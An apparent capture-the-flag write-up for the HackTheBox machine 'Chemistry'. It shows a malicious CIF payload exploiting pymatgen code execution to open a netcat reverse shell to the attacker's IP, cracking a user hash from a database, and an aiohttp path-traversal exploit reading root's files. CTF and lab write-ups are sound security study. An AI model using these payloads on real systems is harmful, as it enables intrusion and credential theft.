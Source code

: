 ```yaml
---
layout: post
title: "HTB Linux Easy: Chemistry"
description: "Chemistry is an Easy rated Linux machine on HTB."
categories: [CTF,HTB]
tags: [Linux,Easy]
author: g
---
```


## Nmap Scan
```bash
Nmap scan report for 10.10.11.38
Host is up (0.023s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b6:fc:20:ae:9d:1d:45:1d:0b:ce:d9:d0:20:f2:6f:dc (RSA)
|   256 f1:ae:1c:3e:1d:ea:55:44:6c:2f:f2:56:8d:62:3c:2b (ECDSA)
|_  256 94:42:1b:78:f2:51:87:07:3e:97:26:c9:a2:5c:0a:26 (ED25519)
5000/tcp open  upnp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/3.0.3 Python/3.9.5
|     Date: Sat, 11 Jan 2025 20:01:28 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 719
|     Vary: Cookie
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Chemistry - Home</title>
|     <link rel="stylesheet" href="/static/styles.css">
|     </head>
|     <body>
|     <div class="container">
|     class="title">Chemistry CIF Analyzer</h1>
|     <p>Welcome to the Chemistry CIF Analyzer. This tool allows you to upload a CIF (Crystallographic Information File) and analyze the structural data contained within.</p>
|     <div class="buttons">
|     <center><a href="/login" class="btn">Login</a>
|     href="/register" class="btn">Register</a></center>
|     </div>
|     </div>
|     </body>
|   RTSPRequest: 
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
```


### Enumerate HTTP (Port 5000)
CIF Analyzer:
![Pasted image 20250111210229.png](/images/Pasted image 20250111210229.png){: .normal }

Start by registering:
![Pasted image 20250111210304.png](/images/Pasted image 20250111210304.png){: .normal }


Looking for CIF file exploits we find the following GitHub repo: [Link](https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f)


Payload:
```bash
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("busybox nc 10.10.14.186 80 -e /bin/sh");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

Press view to activate:
![Pasted image 20250111210856.png](/images/Pasted image 20250111210856.png){: .normal }

Shell as app user:
```bash
nc -lvnp 80  
listening on [any] 80 ...
connect to [10.10.14.186] from (UNKNOWN) [10.10.11.38] 40072
id
uid=1001(app) gid=1001(app) groups=1001(app)
```

### Lateral movement
Found DB file with rosa's hash:
```bash
app@chemistry:~/instance$ strings database.db | grep rosa
Mrosa63ed86ee9f624c7b14f1d4f43dc251a5'
```

Cracked the pass:
![Pasted image 20250111211307.png](/images/Pasted image 20250111211307.png){: .normal }

Become the rosa user:
```bash
app@chemistry:~$ su rosa
Password: 
rosa@chemistry:/home/app$ id
uid=1000(rosa) gid=1000(rosa) groups=1000(rosa)
```

User.txt: `81aa1d81b7e36e2c436545a0706baf69`
```bash
rosa@chemistry:~$ cat user.txt
81aa1d81b7e36e2c436545a0706baf69
```


### Privilege Escalation
There is a service running on port 8080:
```bash
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      off (0.00/0/0)
```

Looks like aiohttp 3.9.1 is running here:
```bash
</html>rosa@chemistry:~$ curl -i localhost:8080
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 5971
Date: Sat, 11 Jan 2025 20:15:29 GMT
Server: Python/3.9 aiohttp/3.9.1
```

Got the flag using the following exploit: [Link](https://github.com/wizarddos/CVE-2024-23334)

Modify the exploit to use /assets as /static doesn't exist.
```bash
rosa@chemistry:/dev/shm$ curl -s localhost:8080 | grep 'src='
    <script src="/assets/js/jquery-3.6.0.min.js"></script>
    <script src="/assets/js/chart.js"></script>
    <script src="/assets/js/script.js"></script>
```

Get the flag:
```bash
rosa@chemistry:/dev/shm$ python3 test.py -u http://127.0.0.1:8080 -f /root/root.txt -d /assets
[+] Attempt 0
                    Payload: /assets/../root/root.txt
                    Status code: 404
[+] Attempt 1
                    Payload: /assets/../../root/root.txt
                    Status code: 404
[+] Attempt 2
                    Payload: /assets/../../../root/root.txt
                    Status code: 200
Respose: 
56df24b0894c84773e68ba1722d4a4a4

Exploit complete
```
> We can get the root user's id_rsa key.
{: .prompt-info }


### PWNED!!!
![Pasted image 20250111212633.png](/images/Pasted image 20250111212633.png){: .normal }